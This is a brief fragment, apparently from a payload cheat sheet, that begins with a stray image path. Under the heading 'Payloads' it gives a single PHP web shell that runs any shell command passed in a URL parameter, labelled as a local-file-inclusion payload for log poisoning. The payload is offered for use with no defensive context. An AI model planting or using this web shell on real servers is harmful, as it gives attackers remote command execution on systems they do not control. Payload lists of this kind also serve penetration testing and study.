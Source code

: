 # Payloads

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

